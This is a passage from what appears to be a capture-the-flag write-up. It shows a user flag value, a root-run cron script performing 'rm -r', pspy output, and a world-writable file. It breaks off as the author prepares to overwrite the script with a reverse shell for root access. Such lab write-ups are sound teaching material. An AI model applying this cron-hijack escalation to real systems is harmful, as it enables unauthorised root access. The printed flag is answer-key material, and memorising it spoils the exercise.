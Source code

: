 ## User flag

~~~
$ cat /home/d4rckh/user.txt
0f7dbb2243e692e3ad222bc4eff8521f
~~~

Answer: `0f7dbb2243e692e3ad222bc4eff8521f`


# Root Flag

## Cleanup script

Having a look at d4rckh's home directory reveals the presence of a cleanup.py script that cleans up the `/home/cleanup/` directory.

~~~
$ cat cleanup.py
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import os
import sys
try:
	os.system('rm -r /home/cleanup/* ')
except:
	sys.exit()
~~~

This is typically the kind of script that is scheduled via a cron job. Using `pspy64`, we can confirm that the script is run automatically by `root`.

~~~
2020/08/22 06:06:01 CMD: UID=0    PID=1864   | python /home/d4rckh/cleanup.py 
2020/08/22 06:06:01 CMD: UID=0    PID=1863   | /bin/sh -c    python /home/d4rckh/cleanup.py 
2020/08/22 06:06:01 CMD: UID=0    PID=1862   | /usr/sbin/CRON -f 
2020/08/22 06:06:01 CMD: UID=0    PID=1865   | python /home/d4rckh/cleanup.py 
~~~

Moreover, the file is world-writable, which means we can modify it.

~~~
$ cd d4rckh
$ ls -ila
total 16
257890 drwxr-xr-x 2 d4rckh d4rckh 4096 Jul  5 21:35 .
  1920 drwxr-xr-x 5 root   root   4096 Jul  5 21:45 ..
259257 -rwxrwxrwx 1 root   root    129 Jul  5 21:45 cleanup.py
259258 -rw-r--r-- 1 d4rckh d4rckh   33 Jul  5 21:45 user.txt
~~~

## Priviledged reverse shell

Let's take advantage of this vulnerability and replace its content with another reverse shell:
